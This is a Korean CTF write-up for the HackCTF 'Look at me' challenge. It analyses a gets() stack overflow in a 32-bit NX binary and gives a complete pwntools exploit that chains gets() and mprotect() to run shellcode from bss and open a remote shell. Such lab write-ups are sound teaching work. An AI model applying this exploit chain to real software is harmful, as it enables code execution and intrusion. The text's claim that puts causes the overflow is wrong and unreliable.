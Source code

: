 **HackCTF - Look at me**

| layout | title                         | auther   | categories | tags           |
| ------ | ----------------------------- | -------- | ---------- | -------------- |
| post   | HackCTF - Look at me | Y3oj4eng | writeup    | writeupwargame |

# Analysis
---

## `file & checksec`
```bash
mac at ubuntu in ~/Desktop/hackCTF
$ file lookatme
lookatme: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.32, BuildID[sha1]=d2a1b10d006e4d6c4e84305383b4dc86481d87da, not stripped
```

```bash
gdb-peda$ checksec         
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

해당 바이너리는 `32-bit ELF` 바이너리이며, `static linked` 방식을 채택하였다. `mitigation`은 `NX` bit만 적용되었다.

역시 `statically linked` 방식을 이용해서 그런지 파일의 크기가 타 바이너리에 비하여 매우 크다.

바이너리를 실행시켜본다.

```bash
mac at ubuntu in ~/Desktop/hackCTF
$ ./lookatme
Hellooooooooooooooooooooo
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[1]    10373 segmentation fault (core dumped)  ./lookatme
```

바이너리를 실행시키면 `Hellooooooooooooooooooo`라는 문자열을 출력한 뒤, 사용자로부터 값을 입력받는다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // ST1C_4

  setvbuf(stdout, 0, 2, 0);
  v3 = getegid();
  setresgid(v3, v3, v3);
  look_at_me();
  return 0;
}
```

`main` 함수다.
별다른 루틴 없이 `look_at_me` 함수를 호출한다.

```c
int look_at_me()
{
  char v1; // [esp+0h] [ebp-18h]

  puts("Hellooooooooooooooooooooo");
  return gets(&v1);
}
```

`look_at_me` 함수에서는 `puts`를 통해 문자열을 출력한 뒤, `v1` 변수에 값을 입력받는다.

`v1` 변수는 `ebp-0x18`에 위치하며 `puts`는 입력을 받을떄 길이값을 검증하지 않아 `BOF` 취약점이 존재한다.

따라서 `look_at_me` 함수가 종료된 이후 복귀할 주소인 `return address`를 조작할 수 있다.

취약점을 찾는것은 매우 쉬웠으나 쉘을 실행시킬 방법을 찾기가 어려웠다..

바이너리 내에는 `system`, `exec` 계열의 실행 함수들도 없었으며 

쉘코드를 주입할수는 있었으나 `NX` 미티게이션으로 인해 스택 영역에 실행권한을 갖지 못한다.

머리를 굴리던중 환경변수를 이용해볼까 했으나 가능하다면 로컬에서나 가능할것 같았다.

도무지 방법이 떠오르지 않아 라업을 참고하였으며

`mprotect()`를 사용하여 `bss` 영역에 실행권한을 주고 문제를 풀어냈다.

역시 사람들은 똑똑하다..ㄷ

# Exploit
---

```python
from pwn import *

context.log_level = 'debug'

p = remote('ctf.j0n9hyun.xyz', 3017)
#p = process('./lookatme')
e = ELF('./lookatme')


# set the materials for Exploit
pr = 0x80bb312
pppr = 0x80bafb9
gets_addr = e.symbols['gets']
mprotect_addr = e.symbols['mprotect']
bss_start = 0x80ea000
bss = e.bss()       # bss = 0x80eaf80
shellcode = asm(shellcraft.i386.sh(), arch='i386')

# Exploit
payload = 'A'*28                        # buf dummy
payload += p32(gets_addr)               # ret -> gets()
payload += p32(pr)                      # pop ebx; ret; RTL_Chaining
payload += p32(bss)                     # Insert bss_addr

payload += p32(mprotect_addr)           # ret -> mprotect_addr
payload += p32(pppr)                    # pop ebx; esi; edi; ret
payload += p32(bss_start)               # addr
payload += p32(8000)                    # len
payload += p32(7)                       # prot (rwx)
payload += p32(bss)                     # ret -> bss_addr

p.recvuntil('Hellooooooooooooooooooooo')
p.sendline(payload)
p.sendline(shellcode)                   # when the gets() function called, write shellcode on bss section

p.interactive()
```






